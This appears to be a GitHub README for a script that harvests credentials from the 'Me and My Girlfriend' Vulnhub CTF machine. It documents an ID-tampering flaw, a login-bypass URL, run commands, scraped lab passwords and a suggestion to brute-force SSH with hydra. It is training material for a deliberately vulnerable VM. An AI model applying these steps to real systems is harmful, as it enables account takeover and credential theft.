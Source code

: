 # MeAndMyGirl-CTF-Creds-Harvester
A not so robust script for harvesting the credentials of the Me and My Girlfriend CTF's web app accounts. The script achieves this by exploiting the parameter tampering privilege escalation flaw at `http://x.x.x.x/index.php?page=profile&user_id=x`. The results are written to a `master.*`, `unames.*` and `pwords.*` files the `unames` and `pwords` can be use with `hydra` to bruteforce the ssh service of the VM. 

# Usage
## Obtain authenticated session cookie
- **Option 1:** Register an account, then login and copy the session cookie's value from your network tab of the developer tools.
- **Option 2:** Navigate to `http://x.x.x.x/misc/process.php?act=login` the app will bypass login, then copy the session cookie's value from your network tab of the developer tools.

## Run scrape.py
```
python3 scrape.py 192.168.56.123 -sessid r4irnlb966u3b7a6sv0iupc1m4 -suid 1 -euid 5
python3 scrape.py 192.168.56.123:8080 -sessid r4irnlb966u3b7a6sv0iupc1m4 -suid 1 -euid 5
```
**Note:** The first argument to the script should be the address of the VM.

## Example
```
┌──(kali㉿kali)-[~/Desktop/Vulnhub/Me_and_My_Girlfriend]
└─$ ./stealer.py 192.168.56.121 -sessid r4irnlb966u3b7a6sv0iupc1m4 -suid 1 -euid 7
[i] Requests:
http://192.168.56.121/index.php?page=profile&user_id=1 [ SUCC, Status: 200 ]
http://192.168.56.121/index.php?page=profile&user_id=2 [ SUCC, Status: 200 ]
http://192.168.56.121/index.php?page=profile&user_id=3 [ SUCC, Status: 200 ]
http://192.168.56.121/index.php?page=profile&user_id=4 [ SUCC, Status: 200 ]
http://192.168.56.121/index.php?page=profile&user_id=5 [ SUCC, Status: 200 ]
http://192.168.56.121/index.php?page=profile&user_id=6 [ SUCC, Status: 200 ]
http://192.168.56.121/index.php?page=profile&user_id=7 [ SUCC, Status: 200 ]
[i] Scraped 5 credentials
eweuhtandingan:skuyatuh
aingmaung:qwerty!!!
sundatea:indONEsia
sedihaingmah:cedihhihihi
alice:4lic3
[*] Done!
```
